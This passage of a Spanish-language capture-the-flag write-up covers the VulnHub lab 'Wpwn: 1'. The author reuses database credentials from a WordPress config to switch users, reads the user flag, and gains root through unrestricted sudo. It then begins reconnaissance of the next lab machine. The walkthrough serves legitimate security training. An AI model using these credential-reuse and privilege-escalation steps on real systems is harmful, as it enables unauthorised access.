 ```bash
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
.
.
.
```

Vemos que dentro de la carpeta `/home` hay un directorio del usuario `takis`. probamos si hubiera reutilización de credenciales y logramos migrar al usuario takis. En su directorio personal localizamos la primera flag

```bash
www-data@wpwn:/home$ ls
takis
www-data@wpwn:/home/takis$ su takis
Password: 
takis@wpwn:~$ cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
```

### Escalada de Privilegios (Wpwn: 1)

* * *

Listando privilegios de sudo observamos que podemos ejecutar cualquier comando como sudo

```bash
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo su
root@wpwn:/home/takis# whoami
root
```

Hemos completado la máquina **Wpwn: 1** de VulnHub!!

### Reconocimiento (DMV: 1)

* * *

Iniciamos el reconocimiento de la máquina `DMV: 1`. Necesitamos saber su IP y los puertos abiertos que tiene esta máquina. Para ello nos haremos un pequeño script en bash el cual nos ayudará con la tarea. Sabiendo que la IP de la máquina Wpwn en el segmento es 10.10.0.145 vamos a escanear todas las IP en el segmento `10.10.0.0/24`
